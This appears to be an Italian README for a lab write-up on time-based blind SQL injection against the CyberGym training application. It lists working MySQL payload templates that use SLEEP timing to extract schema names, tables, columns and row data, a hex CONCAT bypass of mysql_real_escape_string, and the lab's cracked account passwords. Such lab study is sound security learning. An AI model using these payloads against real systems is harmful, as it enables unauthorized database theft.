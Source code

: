 ## Time based blind SQLi

La challenge prevede la preparazione di uno script in linguaggio a piacere (ho scelto il python) per l'exploit della vulnerabilità
che permette SQLi di tipo Time-based blind su due pagine del progetto [CyberGym](https://github.com/AvalZ/cyber-gym) 
(nel mio caso installato su una macchina virtuale eseguita in locale).

Lo svolgimento della prima challenge si può trovare [qui](Time-Based_Blind.md)

Lo svolgimento della seconda [qui](Time-Based_Blind_escaped.md)

Lo script scritto per la loro risoluzione è il [blind_sqli.py](blind_sqli.py) (python 3) presente nel repository.

I dati di login recuperati dalla tabella accounts sono i seguenti:

email            | password(sha1)                           | password in chiaro
----------------------------------------------------------------------------------------------------------------------
arthur@guide.com | d00ee262cdcbe7543210bb85f6f1cac257b4e994 | Bathrobe
ford@guide.com   | 30f5cc99c17426a0d28acf8905c6d776039ad022 | Betelgeuse
tricia@guide.com | bcb3358e273b5772ee0ae1799b612e13cc726b04 | Trillian
zaphod@guide.com | 0c38530eaca4dbc0f49c459c0c52b362f14215c3 | Pan-GalacticGargleBlaster

Le password in chiaro sono state ottenute attraverso lo script [Hash Buster v3.0](https://github.com/s0md3v/Hash-Buster)

Per entrambe le challenge è stato usato lo stesso numero di coppie di query, per le quali è stato modificato il "wrapping"
in modo generare il payload a seconda della tipologia di parametro che si andava a sfruttare:

1. recupero database:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_databases FROM information_schema.schemata)x WHERE x.n_databases = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT schema_name FROM information_schema.schemata LIMIT {},1)x WHERE MID(x.schema_name,{},1) = {} AND SLEEP(0.1)"
2. recupero nomi tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_tables FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + "))x WHERE x.n_tables = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT table_name FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + ") LIMIT {},1)x WHERE MID(x.table_name,{},1) = {} AND SLEEP(0.1)"
3. recupero nomi colonne e tipo dato nelle tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_columns FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + "))x WHERE x.n_columns = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT CONCAT(column_name,"+hex(ord(':'))+",column_type) AS column_info FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + ") LIMIT {},1)x WHERE MID(x.column_info,{},1) = {} AND SLEEP(0.1)"
4. recupero dati presenti nelle colonne passate in input:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_rows FROM  " + db + '.' + table + ")x WHERE n_rows = {} AND SLEEP(0.1)"
	- extracton: "SELECT * FROM(SELECT CONCAT(" + columns_concat + ") AS data FROM " + db + '.' + table + " LIMIT {},1)x WHERE MID(x.data,{},1) = {} AND SLEEP(0.1)"
	
dove:
	- database_hex: lista dei caratteri, separati da virgola, in codifica esadecimale da passare a concat per il bypass di 
					mysql_real_escape_string
	- table_hex: stessa cosa, ma per il nome della tabella passata in input
	
Infine, dall'analisi del jitter delle risposte ho notato che (nel mio ambiente locale, virtualizzato) questo era molto oscillante, ma comunque
si attestava sempre sotto i 0.1 secondi, portandomi a supporre questo valore come sufficiente per una corretta estrazione dei risultati cercati
per entrambe le challenge

Ho incluso nel repository due file .sh che ripercorrono che riepilogano tutti i passaggi necessari per l'estrazione.
